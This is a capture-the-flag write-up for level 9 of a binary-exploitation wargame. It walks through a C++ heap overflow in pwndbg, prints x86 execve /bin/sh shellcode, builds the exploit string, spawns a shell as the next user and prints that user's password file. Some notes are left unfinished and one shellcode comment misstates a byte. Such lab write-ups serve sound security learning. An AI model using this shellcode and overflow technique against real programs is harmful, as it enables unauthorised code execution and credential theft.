 # Walkthrough for Level 9

## Understanding the Binary

The `level9` binary is a C++ program that contains a class `N`. The `N` class has:
- an `annotation` attribute of type `char*`
- an `ammount` attribute of type `int`
- a method `setAnnotation(char*)`
- an overloaded operator `+` that adds the `ammount` of another instance of the `N` class to the `ammount` of the current instance
- an overloaded operator `-` that subtracts the `ammount` of another instance of the `N` class from the `ammount` of the current instance

In the main function, two instances of the `N` class are created, and the `setAnnotation` method is called on one of
them to add the user's input as an annotation. Then, the program calls the `operator+` method of one of the instances to
add the `ammount` of the other instance to it.

## The offset 

Using [pwndbg](https://github.com/pwndbg/pwndbg) we create an arbitrary long cyclic pattern of 120 characters.

```shell
pwndbg> cyclic 120
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
```

We give this pattern as input to the binary.

```shell
pwndbg> run aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
...SNIP...
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
...SNIP...
─────────────────────────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────────────────────────────────────────────────
   0x8048677 <main+131>    call   N::setAnnotation(char*)     <N::setAnnotation(char*)>
 
   0x804867c <main+136>    mov    eax, dword ptr [esp + 0x10]
   0x8048680 <main+140>    mov    eax, dword ptr [eax]
 ► 0x8048682 <main+142>    mov    edx, dword ptr [eax]            <Cannot dereference [0x62616163]>
```

The program segfaults when it tries to dereference the invalid address `0x62616163`, which corresponds to the string
`caab` which its part of our cyclic pattern. We find the offset of this string at the cyclic pattern using the
`cyclic -l` command.

```shell
pwndbg> cyclic -l caab
Finding cyclic pattern of 4 bytes: b'caab' (hex: 0x63616162)
Found at offset 108
```

## The Double Dereference

Putting a breakpoint after `setAnnotation` and rerunning the program with the same argument as before we see that the
program copies the part of our cyclic pattern `caab` and stores in `eax` (<main+140>). Then it will attempt,
unsuccessfully, to dereference `eax` once again and store the dereferenced value in `edx` (<main+142>). Finally, it
makes a call to the dereferenced value stored in `edx` (<main+159>). Summarizing, we have a double dereference and an
execution.

```shell
pwndbg> run aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
...SNIP...
─────────────────────────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────────────────────────────────────────────────
   0x8048677 <main+131>    call   N::setAnnotation(char*)     <N::setAnnotation(char*)>
 
 ► 0x804867c <main+136>    mov    eax, dword ptr [esp + 0x10]     EAX, [0xffffd170] => 0x804d420 ◂— 'caabdaabeaab'
   0x8048680 <main+140>    mov    eax, dword ptr [eax]            EAX, [0x804d420] => 0x62616163 ('caab')
   0x8048682 <main+142>    mov    edx, dword ptr [eax]            <Cannot dereference [0x62616163]>
   0x8048684 <main+144>    mov    eax, dword ptr [esp + 0x14]
   0x8048688 <main+148>    mov    dword ptr [esp + 4], eax
   0x804868c <main+152>    mov    eax, dword ptr [esp + 0x10]
   0x8048690 <main+156>    mov    dword ptr [esp], eax
   0x8048693 <main+159>    call   edx
...SNIP...
```

## The address of our argument

// TO CONTINUE HERE


```shell
(gdb) x/s $eax
0x804a00c:       "AAAA"
```

The address of the argument is `0x804a00c`, in little-endian is `\x0c\xa0\x04\x08`.

We will also need the address of our argument + 4, so 0x804A010. In little-endian is `\x10\xa0\x04\x08`.



### The Payload

A `shellcode` is a sequence of instructions, often written in assembly language, designed to be executed directly by a
computer's processor. We look for a `shellcode` that spawns a shell and that is compatible with our machine architecture.
We find one that it works, and we use it as our payload (https://shell-storm.org/shellcode/files/shellcode-575.html)

```c
/* execve /bin/sh - x86/linux - 21 bytes . zeroed argv[] / envp[]
  ipv#oldschool@irc.worldnet.net ipv#backtrack-fr@irc.freenode.org
  thanks : `ivan, milo, #oldschool crew
*/

int main(){

char sc[] = "\x6a\x0b" // push byte +0xb
"\x58" // pop eax
"\x99" // cdq
"\x52" // push edx
"\x68\x2f\x2f\x73\x68" // push dword 0x68732f2f
"\x68\x2f\x62\x69\x6e" // push dword 0x6e69922f
"\x89\xe3" // mov ebx, esp
"\x31\xc9" // xor ecx, ecx
"\xcd\x80"; // int 0x80

((void (*)()) sc)();
}

/*
sc[] = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
*/
--
ipv
```


## Crafting the Exploit

We create the exploit using python and save it to a file. The exploit consists of the following parts:
- The address of our argument + 4 in little-endian: `\x10\xa0\x04\x08`
- The payload
- Padding to fill the rest of the buffer with 83 `A`s. 108 (offset) - 25 (all the previous bytes) = 83 
- The address of our argument in little-endian: `\x0c\xa0\x04\x08`

```shell
python2 -c 'print "\x10\xa0\x04\x08\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 83 + "\x0c\xa0\x04\x08"' > /tmp/exploit9
```

## Running the Exploit

Since we need to keep a terminal open to control the shell spawned involuntarily by the `level9` binary we craft the
next command to read the exploit from a file and then from standard input. After sending a `SIGINT` or a `SIGQUIT` we
are able to execute commands as `bonus0` user.

```shell
level9@RainFall:~$ ./level9 "$(cat /tmp/exploit9 ; cat)"
^\$ whoami
bonus0
```

## Reading the Password

```shell
$ pwd      
/home/user/level9
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```




To know the rights of writing, read and execute the different memory segments, we can use the command:
```shell
shell cat /proc/$(pgrep level2)/maps
```

```shell
display/5i $pc-8
```

```shell
Breakpoint 2, 0x0804870e in N::setAnnotation(char*) ()
(gdb) p $esp+8
$1 = (void *) 0xbffff694
(gdb) p *(char**)($esp+8)
(gdb) x/112bx *(char**)($esp+8)
0xbffff88a:     0x58    0x7c    0xea    0xb7    0x60    0x60    0xd8    0xb7
0xbffff892:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xbffff89a:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xbffff8a2:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xbffff8aa:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xbffff8b2:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xbffff8ba:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xbffff8c2:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xbffff8ca:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xbffff8d2:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xbffff8da:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xbffff8e2:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xbffff8ea:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xbffff8f2:     0x41    0x41    0x41    0x41    0xf4    0xf6    0xff    0xbf
```